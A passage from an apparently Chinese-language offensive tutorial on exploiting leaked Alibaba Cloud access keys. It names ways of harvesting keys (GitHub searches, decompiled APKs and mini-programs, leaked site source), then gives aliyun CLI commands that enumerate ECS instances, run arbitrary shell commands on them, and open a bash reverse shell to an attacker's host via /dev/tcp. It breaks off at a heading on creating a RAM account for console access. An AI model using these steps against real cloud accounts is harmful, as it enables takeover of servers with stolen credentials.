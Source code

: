 - 临时凭证泄露

- 访问密钥泄露，即 AccessKeyId、SecretAccessKey 泄露

- 实例登录凭证泄露，例如 AWS 在创建 EC2 生成的证书文件遭到泄露

对于这类凭证信息的收集，一般可以通过以下几种方法进行收集：

- Github 敏感信息搜索

- 反编译目标 APK、小程序

- 目标网站源代码泄露

#### 2.1、执行任意命令

首先如果使用Aliyun的CLi作为演示

![img](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImage(null)-20220407173544710.(null))

```Nginx
aliyun ecs DescribeInstances
```

我们使用该命令来获取所有的ECS信息，并输出到ecs.json文件中

![img](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImage(null)-20220407173548540.(null))

![img](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImage(null)-20220407173552963.(null))

我们可以看到这里有一个`InstanceId`

随后使用下面的命令，可以在ECS上执行命令

```Apache
aliyun ecs RunCommand --InstanceId.1 i-2ze2sfmwdrs1z5xxoumk --RegionId cn-beijing --Type RunShellScript --CommandContent "touch /tmp/UzJu"
```

![img](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImage(null)-20220407173557191.(null))

#### 2.2、反弹shell

在新服务器中开启NC

![img](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImage(null)-20220407174318743.(null))

```Apache
 aliyun ecs RunCommand --InstanceId.1 i-2ze2sfmwdrs1z5xxoumk --RegionId cn-beijing --Type RunShellScript --CommandContent "bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'"
```

随后使用aliyun cli输入命令

![image-20220407173635773](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407173635773.png)

#### 2.3、创建RAM账号登录控制台

获取到泄露的AK之后，可以通过写入RAM账户登录
